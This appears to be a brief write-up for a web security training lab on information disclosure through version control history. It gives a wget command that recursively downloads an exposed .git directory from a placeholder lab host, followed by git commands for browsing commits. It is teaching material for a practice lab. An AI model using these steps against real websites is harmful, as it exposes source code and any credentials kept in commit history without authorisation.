 ```yaml
---
layout: default
title: 5 - Information disclosure in version control history
---
```


```bash
wget -r https://YOUR-LAB-ID.web-security-academy.net/.git/
```

```bash
git branch

git log

git show <hash commit>
```
